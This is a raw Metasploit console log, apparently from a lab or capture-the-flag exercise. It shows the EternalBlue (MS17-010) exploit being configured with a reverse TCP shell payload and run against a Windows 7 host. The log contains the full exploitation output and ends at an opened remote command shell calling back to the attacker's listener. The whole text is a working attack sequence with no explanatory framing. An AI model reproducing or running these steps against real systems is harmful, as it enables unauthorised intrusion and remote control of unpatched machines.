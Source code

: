 ```js
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhsots 10.10.155.206
[!] Unknown datastore option: rhsots. Did you mean RHOSTS?
rhsots => 10.10.155.206
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.155.206
rhosts => 10.10.155.206
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.9.49:4444 
[*] 10.10.155.206:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.155.206:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.155.206:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.155.206:445 - The target is vulnerable.
[*] 10.10.155.206:445 - Connecting to target for exploitation.
[+] 10.10.155.206:445 - Connection established for exploitation.
[+] 10.10.155.206:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.155.206:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.155.206:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.155.206:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.155.206:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.155.206:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.155.206:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.155.206:445 - Sending all but last fragment of exploit packet
[*] 10.10.155.206:445 - Starting non-paged pool grooming
[+] 10.10.155.206:445 - Sending SMBv2 buffers
[+] 10.10.155.206:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.155.206:445 - Sending final SMBv2 buffers.
[*] 10.10.155.206:445 - Sending last fragment of exploit packet!
[*] 10.10.155.206:445 - Receiving response from exploit packet
[+] 10.10.155.206:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.155.206:445 - Sending egg to corrupted connection.
[*] 10.10.155.206:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.155.206
[+] 10.10.155.206:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.155.206:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.155.206:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Command shell session 1 opened (10.10.9.49:4444 -> 10.10.155.206:49251) at 2025-08-06 11:02:56 +0100


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```
